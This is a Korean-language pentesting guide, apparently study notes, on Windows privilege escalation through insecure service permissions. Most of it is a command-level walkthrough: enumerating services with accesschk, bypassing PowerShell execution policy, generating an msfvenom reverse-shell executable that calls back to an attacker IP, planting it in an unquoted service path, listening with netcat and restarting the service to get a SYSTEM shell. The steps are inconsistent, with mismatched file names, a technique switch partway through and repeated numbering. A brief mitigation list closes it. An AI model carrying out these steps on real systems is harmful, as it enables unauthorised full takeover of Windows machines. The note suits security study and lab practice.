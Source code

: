 

# 취약한 서비스 권한 (Insecure Service Permissions) 공격 가이드

Windows 서비스에 부적절한 권한이 설정되어 있을 경우, 일반 사용자가 서비스 설정을 변경하여 권한을 상승시킬 수 있습니다. 특히 서비스의 실행 파일 경로를 변경할 수 있는 권한이 있다면, 이를 악용하여 `NT AUTHORITY\SYSTEM` 권한을 획득할 수 있습니다.

### **취약점 원리**

만약 특정 그룹(예: `Authenticated Users`)이나 일반 사용자에게 서비스의 설정을 변경할 수 있는 `SERVICE_CHANGE_CONFIG` 권한이 부여되어 있다면, 공격자는 해당 서비스가 실행할 파일의 경로(`binPath`)를 자신이 업로드한 악성 파일로 변경할 수 있습니다. 이후 서비스를 재시작하면, 해당 서비스가 가진 높은 권한(주로 `LocalSystem`)으로 악성 파일이 실행됩니다.

---


### **1. 취약점 식별**

- **목표:** 현재 사용자가 수정할 수 있는 권한을 가진 서비스를 찾습니다.
- **핵심 도구:** `accesschk.exe` (Sysinternals), `PowerUp.ps1`

```powershell(title="accesschk - 모든 서비스에 대한 현재 사용자 권한 확인")
# -w: 쓰기 권한이 있는 것만 표시
# -c: 서비스 이름
# -v: 상세 정보
# <user_or_group>: 'Authenticated Users' 또는 현재 사용자 이름
accesschk.exe -wcv "Authenticated Users" *

accesschk64.exe /accepteula -uwqvc daclsvc
```

![[Pasted image 20250707230538.png]]

> `PowerUp.ps1`의 `Invoke-AllChecks` 함수는 이 과정을 자동화하여 취약한 서비스를 바로 찾아주므로 매우 효율적입니다.

---

### **2. 권한 분석**

- **목표:** `accesschk`의 결과에서 공격에 필요한 특정 권한이 있는지 확인합니다.
- **필수 권한:**
  - `SERVICE_CHANGE_CONFIG`: 서비스의 실행 파일 경로 등 설정을 변경할 수 있는 가장 핵심적인 권한입니다.
- **유용한 권한:**
  - `SERVICE_START`, `SERVICE_STOP`: 서비스를 직접 재시작할 수 있어 공격을 즉시 트리거할 수 있습니다.
  - `SERVICE_ALL_ACCESS`: 모든 권한을 의미합니다.

---

### **3. 익스플로잇 (Exploitation)**

1. **Powershell 실행:**
    - PowerShell을 시작할 때 실행 정책(Execution Policy)을 일시적으로 우회함.
    - PowerShell의 보안 설정을 변경하여 스크립트 파일(.ps1 등)을 실행할 수 있게 해줍니다.
    ```bash title="powershell 실행 정책 우회"
powershell -ep bypass
    ```

2. **서비스 권한 체크:**
    - https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/
    - ![[service-acl 1.ps1]]
    ```bash title="서비스 권한체크"
. ./service-acl.ps1
"zerotieroneservice" | Get-ServiceAcl | select -ExpandProperty Access
    ```

3. **리버스 셸 페이로드 생성 및 업로드:**
    - `msfvenom`으로 `exe` 형식의 리버스 셸 페이로드를 생성하여, 타겟 시스템의 쓰기 가능한 폴더(예: `C:\Windows\tasks`)에 업로드합니다.
    ```bash title="공격자 Kali : msfvenom 페이로드 생성"
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f exe -o revshell.exe
    ```

4.  **서비스 실행 경로 내 파일 변경:**
    - 실행 파일을 따옴표로 묶지 않은 경로의 쓰기 가능한 폴더에 넣으세요. Windows는 따옴표로 묶지 않은 컨텍스트에서 데이터 구문 분석을 처리하는 방식 때문에 원래 실행 파일보다 먼저 실행 파일을 읽습니다.
    ```powershell title="타겟 : 서비스 경로 내 파일 변경"
copy "C:\users\user\jaja\reverse.exe" "C:\Program Files\Unquoted Path Service\Common.exe"
    ```

5.  **리스너 실행:**
    - 공격자 머신에서 Netcat 리스너를 실행합니다.
    ```bash title="공격자 Kali : Netcat 리스너"
rlwrap nc -lvnp 443
    ```

4.  **서비스 재시작:**
    - 서비스를 재시작하여 변경된 서비스의 페이로드가 실행되도록 합니다.
    ```powershell title="타겟 : 서비스 재시작"
sc.exe query unquotedsvc
sc stop <vulnerable_service_name>
sc start <vulnerable_service_name>
    ```
    > 만약 서비스 제어 권한이 없다면, 시스템이 재부팅될 때까지 기다려야 할 수도 있습니다.

5.  **권한 상승 성공:**
    - 서비스가 시작되면서 `revshell.exe`가 `SYSTEM` 권한으로 실행되고, 공격자에게 최상위 권한의 셸이 연결됩니다.

---


### **4. 방어 (Mitigation)**

- **최소 권한의 원칙:** 일반 사용자가 서비스 설정을 변경할 수 없도록 권한을 엄격하게 관리합니다.
- **정기적인 감사:** `accesschk`와 같은 도구를 사용하여 시스템의 서비스 권한 설정을 주기적으로 검토하고 불필요한 권한을 제거합니다.
